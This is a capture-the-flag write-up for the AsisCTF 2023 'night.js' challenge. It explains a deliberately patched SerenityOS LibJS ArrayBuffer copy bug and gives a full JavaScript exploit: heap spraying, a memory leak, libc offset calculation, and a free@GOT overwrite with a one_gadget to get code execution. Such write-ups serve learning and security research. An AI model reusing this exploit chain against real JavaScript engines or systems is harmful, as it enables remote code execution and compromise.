 ```yaml
---
layout: post
title:  "[AsisCTF Quals 2023] Attacking Javascript Engine libjs SerenityOS"
date:   2023-09-28
categories: ctf pwn pwnjs
description: This is a writeup for night.js pwn challenge
tags: tip-binary ctf
---
```


# Background

Asis CTF 2023 Quals has ended. I solved 3 out of 4 challenges, including `night.js`. Unfortunately, I solved `night.js` after the event had ended and read a write-up on Discord ;). This challenge helped me a lot to learn more about pwning the JavaScript interpreter. It's a JavaScript interpreter pwn challenge, which means we are attacking the JS binary/interpreter, not a JS web application.

# Challenge Analysis

We were given several filess, including Dockerfile, challenge patch, commit information, and more. After analyzing the challenge patch, I discovered that the patch will disables the `assertion` and `from_size` checks, allowing us to call the function `copy_data_block_bytes` with smaller size from the destination array. this can lead to arbitrary read or write.

{% highlight cpp %}
diff --git a/./Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp b/../patched-serenity/Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
index 2f65f7b6ca..ee9a1ca00f 100644
--- a/./Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
+++ b/../patched-serenity/Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
@@ -80,10 +80,10 @@ void copy_data_block_bytes(ByteBuffer& to_block, u64 to_index, ByteBuffer const&
     VERIFY(from_index + count <= from_size);
 
     // 4. Let toSize be the number of bytes in toBlock.
-    auto to_size = to_block.size();
+    // auto to_size = to_block.size();
 
     // 5. Assert: toIndex + count ≤ toSize.
-    VERIFY(to_index + count <= to_size);
+    // VERIFY(to_index + count <= to_size);
 
     // 6. Repeat, while count > 0,
     while (count > 0) {
@@ -215,6 +215,7 @@ ThrowCompletionOr<ArrayBuffer*> array_buffer_copy_and_detach(VM& vm, ArrayBuffer
 
     // 10. Let copyLength be min(newByteLength, arrayBuffer.[[ArrayBufferByteLength]]).
     auto copy_length = min(new_byte_length, array_buffer.byte_length());
+    if(array_buffer.byte_length() > 0x100) copy_length = array_buffer.byte_length();
 
     // 11. Let fromBlock be arrayBuffer.[[ArrayBufferData]].
     // 12. Let toBlock be newBuffer.[[ArrayBufferData]].

{% endhighlight %}
 
With this information, we can trigger the vulnerability by using `ArrayBuffer.prototype.transfer()`,
which allow us to copy the contents of the array to a new array. In this case, we can create several array buffer, then modifying the appropriate array with a size of 0x100 then call `.transfer` to trigger the vulnerability.

{% highlight js %}

buffer_array = []
spary_array = []

// spraying the array buffer 0x50 times with 0x120 
for(var i = 0; i < 0x50; i++){
    buffer_array.push(new ArrayBuffer(0x120))
}

x = buffer_array[0x2f]
view = new BigUint64Array(x)

console.log(view)

// modify ArrayBuffer object 
view[0] = 0xdeadbeef0n
view[1] = 0xdeadbeef1n
view[2] = 0xdeadbeef2n
view[3] = 0xdeadbeef3n
view[4] = 0x100n // modify the size
view[5] = 1n // set to 1
view[6] = 1n // set to 1

{% endhighlight %}

now the value at `buffer_array[0x2f]` will stored at the memory location `array_address+0x0040` 

<img src="/images/pwnjs/1.png"/>
Yellow represents the address of the array, blue represents the value stored in the array. When we trigger `ArrayBuffer.prototype.transfer()`, the size of the copied array will 0x100.

{% highlight js %}

// trigger the vulnerability by allocating the new Array with smaller size
buffer2 = x.transfer(0x10)

{% endhighlight %}

The new array will be created with size `0x100`, which is equivalent to `256`. and this array will contains memory leaks.

<img src="/images/pwnjs/2.png">

We can use the memory leak to obtain `__libc_system` and the Array address. Our plan is to overwrite the `free@GOT` with the address of the `one_gadget`.

<img src="/images/pwnjs/3.png"> 

Before that, we can perform array spray-ing, which can be useful for performing a GOT overwrite.

{% highlight js %}

// spraying array
for(var i = 0; i <= 0x30; i++){
    spray_array.push(new ArrayBuffer(0x160))
}

// spraying array with string that can be useful to get shell or executing file
for(var i = 0; i <= 0xff; i++){
    v = new BigUint64Array(spray_array[i])
    // v[0] = 4702111234474983745n // /bin/sh 
    v[0] = 16653634245063215n
}

{% endhighlight %}

Now we can initialize a new array to read the stored memory inside `buffer2` which is the array with small size but has a size of `0x100`. 

{% highlight js %}

leak = new BigUint64Array(buffer2)
console.log(leak)

{% endhighlight %}

Not only read. We can also performing GOT overwrite by inserting the `free@got` address into `leak[16]`. Then create a new `big uint64` array using our `spray_array[0]` finally, we can modify `free@got` using the first index of the new `big uint64` array.

{% highlight js %}

leak[16] = __liblagomjs_freegot
v = new BigUint64Array(spray_array[0])
v[0] = __libc_system

{% endhighlight %}

We are overwriting `free@got` because the `liblagom-js.so.0.0.0` library lacks RELRO protection. Allowing us to freely overwrite the values in the GOT addresses within this library. Additionally, `free()` is used extensively throughout the binary.

<img src="/images/pwnjs/5.png"/>

Now, we can overwrite the `free@got` with `__libc_system`. In this case, I use `one_gadget` to simplify the process. Here is my full exploit code to achieve remote code execution (RCE). 

{% highlight js %}

function addrprnt(address){
    if (address === null || address === undefined){
        return 
    }else{
        return "0x" + address.toString(16);
    }
}

function edit_chunk_size(view, size){
    view[0] = 4702111234474983745n;
    view[1] = 4702111234474983745n;
    view[2] = 4702111234474983745n;
    view[3] = 4702111234474983745n;
    view[4] = size;
    view[5] = 1n;
    view[6] = 1n;
}

function memdump(array){
    // dumping buffer
    for(var i =0; i <= array.byteLength; i++){
        console.log("[+] dumping array["+ i +"] = " + addrprnt(array[i]))
    }
}



buffer_array = []
spray_array = []

// spraying the array buffer 0x50 times with 0x120 
for(var i = 0; i < 0x50; i++){
    buffer_array.push(new ArrayBuffer(0x120))
}

x = buffer_array[0x2f]
view = new BigUint64Array(x)

console.log(view)

// modify ArrayBuffer object 
view[0] = 0xdeadbeef0n
view[1] = 0xdeadbeef1n
view[2] = 0xdeadbeef2n
view[3] = 0xdeadbeef3n
view[4] = 0x100n // modify the size
view[5] = 1n // set to 1
view[6] = 1n // set to 1

// trigger the copied byte to buffer2 with smaller length of memory
buffer2 = x.transfer(0x10)
console.log(buffer2.byteLength)
console.log(buffer2)


// spraying array
for(var i = 0; i <= 0x30; i++){
    spray_array.push(new ArrayBuffer(0x160))
}

// spraying array 
for(var i = 0; i <= 0xff; i++){
    v = new BigUint64Array(spray_array[i])
    // v[0] = 4702111234474983745n // /bin/sh 
    v[0] = 16653634245063215n
}

// getting info leak
leak = new BigUint64Array(buffer2)
console.log(leak)

/* offset      liblagom-js.so.0.0.0 [free@got]= 0x00000069b420 */

leak_arraybuffer = leak[8]
leak_heapaddress = leak[10]
leak_strbinsh = leak[16]
__libc_baseaddress = leak_arraybuffer - 0xc19da8n
__libc_system = __libc_baseaddress + 0x50d60n
__libc_binsh = __libc_baseaddress + 0x1d8698n
__libc_puts = __libc_baseaddress + 0x80ed0n
__liblagomjs_baseaddress = leak_arraybuffer - 0x67dda8n
__liblagomjs_freegot = __liblagomjs_baseaddress + 0x00000069b420n
oneshot = __libc_baseaddress + 0xebcf8n

__libc_ret = __libc_baseaddress + 0x00000000000f872en
__libc_pop_rdi = __libc_baseaddress + 0x000000000002a3e5n

// memory leak
console.log('[+] address of ArrayBuffer: ' + addrprnt(leak_arraybuffer))
console.log('[+] address of base address of libc.so.6: ' + addrprnt(__libc_baseaddress))
console.log('[+] address of base address of liblagom-js.so.0.0.0: ' + addrprnt(__liblagomjs_baseaddress))
console.log('[+] address of free@got of liblagom-js.so.0.0.0: ' + addrprnt(__liblagomjs_freegot))
console.log('[+] address of __libc_system of libc.so.6: ' + addrprnt(__libc_system))
console.log('[+] address of heap: ' + addrprnt(leak_heapaddress))
console.log('[+] address of /bin/sh: ' + addrprnt(leak_strbinsh))

// gaining arbitrary write 
leak[16] = __liblagomjs_freegot
v = new BigUint64Array(spray_array[0])
console.log(v)
v[0] = oneshot

{% endhighlight %}

Run the exploit and we got RCE


<img src="/images/pwnjs/4.png"/>